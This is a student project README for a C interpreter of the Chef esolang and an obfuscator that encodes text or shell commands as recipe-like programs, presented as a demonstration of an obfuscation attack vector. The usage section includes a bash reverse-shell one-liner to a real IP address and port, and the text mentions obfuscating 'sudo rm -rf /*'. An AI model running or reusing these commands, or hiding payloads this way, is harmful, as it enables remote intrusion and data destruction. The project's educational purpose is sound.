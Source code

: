 # The Caterers (Presentation)

***VIDEO REMOVED***

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes." 
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used solely for data output—once items have been poured into the pans, they are not able to be removed except through output

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`
e
Obfuscate takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"`
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'`
- `./obfuscate -x 'echo "Hello, world!"'`
- `./obfuscate -x "bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1'"`[^5]

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 256 or fewer distinct characters.[^6] Attempting to use it otherwise will throw an error.

### To interpret: `./interpret`

Interpret takes a file path followed by an optional flag and attempts to run it as a Chef file. If `-` is provided in lieu of a path, Interpret will attempt to read from the standard input. The only flag currently available is
- `-v`: Interpret will use *verbose* mode and print the intermediate, post-parsing steps of the file, allowing users to check that the file is at least being parsed correctly.

Sample usage:
- `./interpret recipes/factorial.chef`
- `cat recipes/souffle.chef | ./interpret -`
- `./obfuscate -p 'wow' | ./interpret - -v`

Watch out! Interpret is ONLY guaranteed to work on properly-formatted Chef programs using characters entirely within the ASCII set. Attempting to use it otherwise will throw an error or cause undefined behavior.[^7]

> [!IMPORTANT]
> This is not, in fact, strictly true. Our implementation of the Chef intrepreter features one nonstandard command of our own design. See [link!!]
> In addition, we've found that a great number of other interpreters allow (or require) nonstandard formatting (*e.g.* "the 1st mixing bowl", newlines as command separators, oven temperatures in degrees Fahrenheit, etc.) and as such will accept some technically incorrect formats.
> The "Serves" directive is mandatory, because the documentation is unclear.

## How this is Cybersecurity

Esolangs are fun and all, but not in fact particularly related to cybersecurity. Chef, however, by virtue of its programs being multiply coded as recipes, is a language *all about* obfuscation--the command to read a number for the standard input is "Take *ingredient* from the refrigerator", for example--and thus we might imagine a malicious actor encoding harmful code as seemingly innocuous Chef programs, which are both made to look like recipes and completely unreadable.

Our newly-introduced twenty-first command extends this idea.
```
Broil contents of [the] [*nth*] baking dish.
```
  The program will immediately empty the contents of the given baking dish and read it as a shell command for an `sh`-compliant shell in the same form it would print it. For example, if a baking dish would be printed as "echo 'the answer is 101'", this command will empty the dish and execute the command `echo 'the answer is 101'`. This allows Chef programs to really qualify as malware--we can imagine the output of `./obfuscate 'sudo rm -rf /*'`. (Note: Do **NOT** try that. We do NOT recommend or endorse the creation of malware with our project, and we are NOT liable for any damage to your file system due to your own foolishness.)

By including both an obfuscator and interpreter, we gain the ability to encode arbitrary messages and execute them in what look like slightly odd but nevertheless non-malevolent-appearing recipes. Our project is thus both an esolang interpreter AND a potential attack vector.


[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
[^5]: That's a reverse shell to homer.stuy.edu on port 9001. In our video, this command didn't actually work, and that was because the bash command was actually getting executed. By replacing the single quotes with double quotes, it's actually running as it's supposed to and generating the reverse shell recipe.
[^6]: It shouldn't be possible to use more than 256 distinct characters while staying in the 7-bit ASCII range, but you never know.
[^7]: It's not our problem, essentially.
